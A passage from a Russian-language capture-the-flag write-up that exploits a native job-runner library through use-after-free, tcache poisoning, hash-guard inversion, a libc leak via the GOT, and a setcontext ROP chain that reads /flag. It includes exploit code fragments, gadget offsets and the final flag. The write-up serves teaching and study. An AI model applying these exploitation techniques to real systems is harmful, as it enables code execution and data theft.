

Alias с offset `1` позволяет менять байты 1..7 и оставить byte 0 прежним. Позже target подбирается так, чтобы этот неизменяемый младший байт уже был правильным.

## 6. Кладем настоящую job поверх освобожденного block

### 6.1. Откуда берутся `0x400` и `0x410`

В submit path нахожу два выделения памяти. Около `0x3975` в `edi` передается `0x400`, затем вызывается `malloc`.



Первый allocation является временным decoy, второй становится структурой job:

```text
decoy = malloc(0x400)
job   = malloc(0x400)
free(decoy)
```

Для запроса `0x400` glibc добавляет 16-байтовый chunk header:

```text
0x400 + 0x10 = 0x410
```

Поэтому соседние allocation этого размера отличаются на `0x410`.

### 6.2. Почему victim0 попадает в work_b

В `free0` сначала освобождается `work_b`, затем `work_a`. Tcache является LIFO:

```text
tcache head -> work_a -> work_b
```

Теперь ставлю новую job от живого `late` и называю ее `victim0`:

```text
первый malloc(0x400) -> work_a, decoy
второй malloc(0x400) -> work_b, victim0
```

`alias_b` все еще указывает на `work_b + 1`, поэтому теперь он читает структуру `victim0`.

## 7. Восстанавливаем layout структуры job

### 7.1. Находим поля в IDA

Возвращаюсь в submit path и открываю участок инициализации около `0x3af0`. Здесь один регистр, в моем листинге `r10`, является адресом новой job.

Прямые записи дают offsets:

```text
0x3af0 mov [r10], r8          -> job+0x00, id
0x3b15 mov [r10+0x60], r14    -> job+0x60, worker
0x3b44 mov [r10+0x90], r10    -> job+0x90, callback argument
0x3b5c mov [r10+0x08], eax    -> job+0x08, source fd
0x3b60 lea rax, [r10+0xa0]
0x3b67 mov [r10+0x68], rax    -> job+0x68, output pointer
0x3bbe mov [r10+0x80], rcx    -> job+0x80, serial
0x3bc9 mov [r10+0x88], rax    -> job+0x88, callback
0x3bdf mov [r10+0x98], rax    -> job+0x98, completion guard
```



Полный нужный layout:

| Offset | Поле | Как используется |
| ---: | --- | --- |
| `0x00` | id | идентификатор native job |
| `0x08` | source fd | повторное чтение FDP |
| `0x0c` | state | состояние job |
| `0x10` | сохраненный plan | preflight classes и flags |
| `0x60` | worker | адрес runtime |
| `0x68` | output data | источник результата |
| `0x70` | written | длина результата |
| `0x78` | fault, errno | информация об ошибке |
| `0x80` | serial | первый integrity value |
| `0x88` | callback | completion callback |
| `0x90` | callback argument | аргумент callback |
| `0x98` | guard | второй integrity value |
| `0xa0` | output buffer | встроенный буфер результата |

### 7.2. Окна для чтения

`alias_b` начинается с `job + 1`. Чтобы прочитать от `job + 8`, задаю `arg = 7`:

```text
alias_b + 7 = job + 1 + 7 = job + 8
```

Читаю 128 байт. Этого хватает от `source_fd` до байта перед callback.

Второе окно начинается с `arg = 0x87`:

```text
alias_b + 0x87 = job + 1 + 0x87 = job + 0x88
```

Из него читаю 40 байт, начиная с callback.

Разбор утечки:

```python
active_fd = struct.unpack_from("<I", leak, 0)[0]

runtime, output, written, fault_info, serial = \
    struct.unpack_from("<5Q", leak, 0x58)

callback, callback_argument, guard = \
    struct.unpack_from("<3Q", tail, 0)
```

Offset `0x58` внутри `leak` получается из layout:

```text
leak начинается с job+0x08
worker лежит по job+0x60
0x60 - 0x08 = 0x58
```

### 7.3. Получаем адреса баз

В нормальной job callback указывает на пустую функцию по offset `0x1440`. В IDA по `0x1440` находится одиночный `ret`.

```text
libfdhost_base = callback - 0x1440
job_address = output_data - 0xa0
```

Из `source_fd` получаю fd живого `late`. В descriptor arena cartridge занимает соседний предыдущий retired slot:

```text
cartridge_fd = active_fd - 1
```

Проверяю утечку двумя инвариантами:

```text
output_data == job_address + 0xa0
callback - libfdhost_base == 0x1440
```

Если оба равенства выполняются, offsets и endian разобраны правильно.

## 8. Разбираем heap-арифметику

В контейнере заданы `GOMAXPROCS=1` и `MALLOC_ARENA_MAX=1`. Native worker выполняет команды последовательно, поэтому порядок выделений воспроизводим.

Каждая заранее созданная job добавляет один живой chunk размера `0x410`, а один и тот же decoy возвращается в tcache. Если обозначить адрес этого decoy через `A`, после 13 submit раскладка выглядит так:

```text
A          - свободный decoy в tcache
A+0x410    - исходная job 0
A+0x820    - исходная job 1
...
A+13*0x410 - исходная job 12
```

При release `create0` объект `work_a` забирает свободный decoy по адресу `A`, а `work_b` получает следующий свежий chunk по адресу `A+14*0x410`. После `free0` и submit новой job именно `work_b` становится `victim0`.

Следовательно, от `victim0` до адреса повторно используемого head ровно 14 интервалов:

```text
head = victim0_job - 14 * 0x410
```

После `victim0` следующие свежие chunk идут с тем же шагом:

```text
bridge = victim0_job + 0x410
work_b = victim0_job + 0x820
```

Формулы зависят не от случайного heap base, а от фиксированного порядка allocation и размера `0x410`. ASLR меняет все адреса на одну базу, но разницы остаются теми же.

Перед использованием проверяю выравнивание:

```python
assert head & 0xf == 0
assert bridge & 0xf == 0
assert work_b & 0xf == 0
```

## 9. Строим tcache chain с fake entry

Для следующего цикла создаю три block:

```text
work_a - writable persistent block
bridge - persistent block
work_b - writable persistent output block
```

Сначала отдельным документом освобождаю `bridge`. Затем повторяю UAF для `work_b` и `work_a`.

Нужна цепочка:

```text
H -> T -> B
```

Где:

```text
H = head, начало chunk work_a
T = work_b + 0x100, адрес будущей fake job
B = bridge
```

### 9.1. Записываем link из fake entry в bridge

Safe-linking требует хранить encoded pointer:

```python
target_link = bridge ^ (target >> 12)
```

Через `alias_b` и filter записываю этот qword по адресу `T`.

Для node 4 использую `arg = 0xff`:

```text
alias_b = work_b + 1
alias_b + 0xff = work_b + 0x100 = T
```

### 9.2. Перенаправляем head на fake entry

В head должен лежать:

```python
encoded_target = target ^ (head >> 12)
```

Но `alias_a` начинается с `head + 1`, поэтому заменяю только байты 1..7:

```python
poison = struct.pack("<Q", encoded_target)[1:8]
```

Младший байт уже совпадает. Исходный next у `head` указывал на `work_b`, а target равен `work_b + 0x100`. Добавление `0x100` не меняет byte 0 адреса, а `head >> 12` одинаково xor-ится в обоих случаях.

После записи tcache выглядит так:

```text
head -> work_b+0x100 -> bridge
```

Когда создается `victim1`:

```text
decoy malloc -> head
job malloc   -> work_b+0x100
```

Настоящая job оказывается по заранее вычисленному адресу внутри области, которую можно менять через `alias_b`.

## 10. Восстанавливаем completion key и guard

Просто заменить callback нельзя. Перед непрямым вызовом библиотека проверяет два значения.

В worker execution около `0x310c` сначала проверяется serial, затем вызывается `sub_1e50` и сравнивается guard. Только после этого происходит непрямой вызов callback.



### 10.1. Формула serial

В job initialization по `0x3b04-0x3bbe` видны rotation, xor с константой и два умножения:

```python
serial = mix64(
    completion_key
    ^ rol64(job_address, 19)
    ^ 0xa5c31d7e42b9680f
)
```

`mix64`:

```python
def mix64(value):
    value ^= value >> 30
    value = value * 0xbf58476d1ce4e5b9 & MASK64
    value ^= value >> 27
    value = value * 0x94d049bb133111eb & MASK64
    return value ^ (value >> 31)
```

Обе константы умножения нечетные. У них существует обратный элемент по модулю `2^64`. Операция `x ^= x >> n` тоже обратима, потому что старшие биты восстанавливаются раньше младших.

```python
def undo_right_xor(value, shift):
    result = value
    for _ in range(6):
        result = value ^ (result >> shift)
    return result & MASK64

def unmix64(value):
    value = undo_right_xor(value, 31)
    value = value * pow(0x94d049bb133111eb, -1, 1 << 64) & MASK64
    value = undo_right_xor(value, 27)
    value = value * pow(0xbf58476d1ce4e5b9, -1, 1 << 64) & MASK64
    return undo_right_xor(value, 30)
```

После утечки serial и job address восстанавливаю секрет:

```python
completion_key = (
    unmix64(serial)
    ^ rol64(job_address, 19)
    ^ 0xa5c31d7e42b9680f
)
```

### 10.2. Формула completion guard

Нажимаю `G`, ввожу `1e50` и открываю функцию в disassembly. Здесь offsets полей совпадают с восстановленным layout:

```text
[job+0x68] output_data
[job+0x80] serial
[job+0x88] callback
[job+0x90] callback_argument
```



Формула:

```python
guard = mix64(
    rol64(callback, 13)
    ^ rol64(job_address, 7)
    ^ serial
    ^ completion_key
    ^ ror64(output_data, 21)
    ^ rol64(callback_argument, 29)
    ^ 0x646561642d6a6f62
)
```

`ror64(output_data, 21)` эквивалентен `rol64(output_data, 43)`, потому что `64 - 21 = 43`.

Теперь для выбранных callback, argument и output pointer можно вычислить валидный guard.

## 11. Сливаем базу libc

### 11.1. Почему используем GOT entry функции free

Нужен любой уже разрешенный адрес из libc. `free` точно вызывался во время cleanup, поэтому ее GOT entry уже заполнен.

Проверяю relocations:

```bash
readelf -rW runtime/amd64/libfdhost.so | rg 'free|OFFSET'
readelf -Ws runtime/amd64/libc.so.6 | rg ' free@@'
```

Получаю:

```text
libfdhost.so + 0x6ef0 -> free@GLIBC_2.2.5
libc free offset      -> 0x98ef0
```



### 11.2. Изменяемые поля victim1

Сначала отдельным старым document меняю `victim1->source_fd` на `cartridge_fd`. Без этого `victim1` прочитает штатный `late`, а не текущий payload.

Затем меняю поля fake job:

| Offset | Значение | Причина |
| ---: | --- | --- |
| `0x08` | `cartridge_fd` | читать текущий FDP |
| `0x68` | `libfdhost_base + 0x6ef0` | источник результата равен GOT free |
| `0x70` | `128` | достаточная длина результата |
| `0x88` | `libfdhost_base + 0x18c8` | внутренний completion gadget |
| `0x90` | `0` | второй аргумент для ветки без memcpy |
| `0x98` | пересчитанный guard | пройти integrity check |

Offset `0x18c8` находится внутри штатной функции публикации. При нулевой длине эта ветка записывает состояние и делает `siglongjmp`, не копируя данные поверх GOT.



После release первые восемь байт результата содержат runtime address `free`:

```python
free_address = struct.unpack_from("<Q", result, 0)[0]
libc_base = free_address - 0x98ef0
```

## 12. Находим setcontext и ROP gadgets в выданной libc

Все offsets беру только из `runtime/amd64/libc.so.6` из архива. Системная libc хоста может отличаться.

Символы ищу так:

```bash
readelf -Ws runtime/amd64/libc.so.6 | \
    rg ' (free|open|read|setcontext)@@'
```

Гаджеты:

```bash
ROPgadget --binary runtime/amd64/libc.so.6 --only 'pop|ret|xchg' | \
    rg 'pop rdi ; ret$|pop rsi ; ret$|pop rdx ; ret$|xchg edi, eax ; ret$'
```

Нужные offsets:

| Объект | Offset |
| --- | ---: |
| `setcontext` | `0x40fe0` |
| loader внутри `setcontext` | `0x41015` |
| `free` | `0x98ef0` |
| `open` | `0xf7fc0` |
| `read` | `0xf82a0` |
| `pop rdi; ret` | `0x277e5` |
| `pop rsi; ret` | `0x28f99` |
| `pop rdx; ret` | `0xfdf0d` |
| `xchg edi, eax; ret` | `0x141dcc` |



### 12.1. Почему точка входа равна setcontext+0x35

Открываю в IDA уже `libc.so.6`, нажимаю `G` и ввожу `41015`.

С этой инструкции функция загружает регистры из структуры по `rdx`:

```text
mov rsp, [rdx+0xa0]
mov rbx, [rdx+0x80]
mov rbp, [rdx+0x78]
mov r12, [rdx+0x48]
mov r13, [rdx+0x50]
mov r14, [rdx+0x58]
mov r15, [rdx+0x60]
mov rcx, [rdx+0xa8]
push rcx
mov rsi, [rdx+0x70]
mov rdi, [rdx+0x68]
mov rdx, [rdx+0x88]
ret
```

> [МЕСТО ДЛЯ СКРИНШОТА ИЗ IDA 09: в `libc.so.6` открыть `0x41015`, показать загрузку `rsp`, `rdi`, `rsi`, `rdx` из context и финальный `ret`. Сохранить как `images/ida-setcontext-loader.png`.]

Точка `0x41015` равна `setcontext + 0x35`. Она пропускает начало функции и сразу входит в удобный loader регистров.

## 13. Записываем context и ROP в scratch

Из первой утечки уже получен `worker`. Внутри worker штатный scratch начинается по offset `0x2c88`:

```python
scratch = worker + 0x2c88
```

Этот offset виден в функции публикации по обращениям к `worker+0x2c88`, а не подбирается динамически.

Для финальной подделки использую старую job `create3`. Node 6 создает persistent output block и копирует большой payload в scratch.

В Go-обертке `PublishedResultCapacity` равен 128 байтам, а preload длиннее. При обычном завершении обертка отвергнет такой результат. Поэтому после нужного копирования намеренно вызываю range fault через node 7:

```text
node 6 -> block с preload payload
node 7 -> filter на тот же object с arg=0x400
```

Job заканчивается fault до обычной публикации длинного результата, но данные, уже скопированные в scratch, остаются там. Этот fault является ожидаемым этапом exploit.

### 13.1. Layout подготовленного scratch

Задаю:

```python
context = scratch - 0x68
read_buffer = scratch + 0x200
path = scratch + 0xb0
```

Почему context начинается раньше scratch:

```text
setcontext loader читает rdi из [rdx+0x68]
нужно, чтобы [rdx+0x68] совпало с началом scratch
значит rdx = scratch-0x68
```

В scratch размещаю:

```text
+0x00 path pointer для open
+0x08 rsi = 0
+0x18 worker pointer
+0x38 новый rsp = scratch+0x48
+0x40 первый rip = open
+0x48 ROP chain
+0xb0 строка /flag\0
```

ROP chain:

```text
open("/flag", 0)
xchg edi, eax
read(fd, scratch+0x200, 0x40)
fdhost_publish(worker, scratch+0x200, 0x40)
```

После `open` файловый дескриптор возвращается в `eax`, а `read` ожидает его в `edi`. Поэтому между ними нужен `xchg edi, eax; ret`.

## 14. Создаем victim2 и запускаем финальный callback

После preload снова создаю UAF и делаю tcache poisoning. На этот раз target выбираю внутри bridge:

```text
victim2_address = bridge + 0x100
```

После двух `malloc(0x400)` новая настоящая `victim2` оказывается по этому адресу.

Сначала меняю ее `source_fd` на `cartridge_fd`, затем записываю:

```python
callback = libc_base + 0x41015
callback_argument = scratch - 0x68
output_data = victim2_address + 0xa0
guard = completion_guard(...)
```

В конце worker вызывает callback только после успешных проверок serial и guard. `setcontext` восстанавливает регистры, переключает stack на подготовленный ROP и вызывает `open`.

### 14.1. Как результат возвращается без shell

В `libfdhost.so` нажимаю `G` и ввожу `1880`. Эта функция проверяет magic worker, берет active job, копирует не больше `0x300` байт в `job->output_data`, записывает длину и делает `siglongjmp`.

```text
0x1880 fdhost_publish(worker, data, size)
0x18fc memcpy(job->output_data, data, size)
0x18ca job->written = size
0x18e8 siglongjmp(...)
```



Exploit не требует reverse shell. Последний ROP-вызов использует штатный механизм результата, и содержимое `/flag` приходит в ответе release.

## 15. Полная последовательность exploit

### Этап A. Готовим FD rebinding

1. Создаю asset `main` из `dispatch`.
2. Создаю asset `late` из `dispatch`.
3. От `main` ставлю 13 job: `create0`, `free0`, `leak0`, `leak_tail`, `create2`, `free_bridge2`, `free2`, `poison2`, `create3`, `free3`, `poison3`, `forge_libc`, `forge_final`.
4. Отзываю `main`.
5. Запускаю collector.
6. Загружаю любой валидный cartridge.
7. Запускаю compact.

Теперь все 13 job прошли preflight на штатном FDP, но исполняют текущий cartridge.

### Этап B. Получаем первый UAF и leak job

1. Загружаю `create_pair_packet(0)` и release `create0`.
2. Загружаю `free_pair_packet(0)` и release `free0`.
3. Ставлю новую `victim0` от `late`.
4. Загружаю окно `job+8` и release `leak0`.
5. Загружаю окно `job+0x88` и release `leak_tail`.
6. Из результата получаю `active_fd`, `worker`, `output_data`, `serial`, `callback`, `guard`.
7. Вычисляю `job`, `libfdhost_base`, `cartridge_fd`, `completion_key`.

### Этап C. Создаем victim1 и сливаем libc

1. Release `create2` создает `work_a`, `bridge`, `work_b`.
2. Release `free_bridge2` освобождает bridge.
3. Release `free2` освобождает pair и оставляет aliases.
4. Вычисляю `head`, `bridge`, `work_b`, `victim1_address`.
5. Release `poison2` строит цепочку `head -> victim1_address -> bridge`.
6. Ставлю новую `victim1` от `late`.
7. Release `forge_libc` сначала меняет `victim1->source_fd`.
8. Загружаю пакет с output pointer на GOT free и пересчитанным guard.
9. Release `victim1` возвращает адрес `free`.
10. Вычисляю `libc_base`.

### Этап D. Готовим ROP и забираем флаг

1. Собираю setcontext frame и ROP в preload payload.
2. Release `create3` копирует payload в worker scratch и ожидаемо завершается range fault.
3. Release `free3` создает следующий UAF.
4. Release `poison3` направляет tcache на `bridge+0x100`.
5. Ставлю новую `victim2` от `late`.
6. Release `forge_final` меняет `victim2->source_fd`.
7. Загружаю финальный пакет с callback на `setcontext+0x35` и валидным guard.
8. Release `victim2` запускает ROP.
9. `fdhost_publish` возвращает содержимое `/flag` как обычный результат job.

Финальный ответ:

```text
flag{d14m3t3rs_m3rg3_th3_n3tw0rk}
```

## 16. Краткий итог

В задаче нет одной изолированной ошибки. Exploit собирается из нескольких слабых мест:

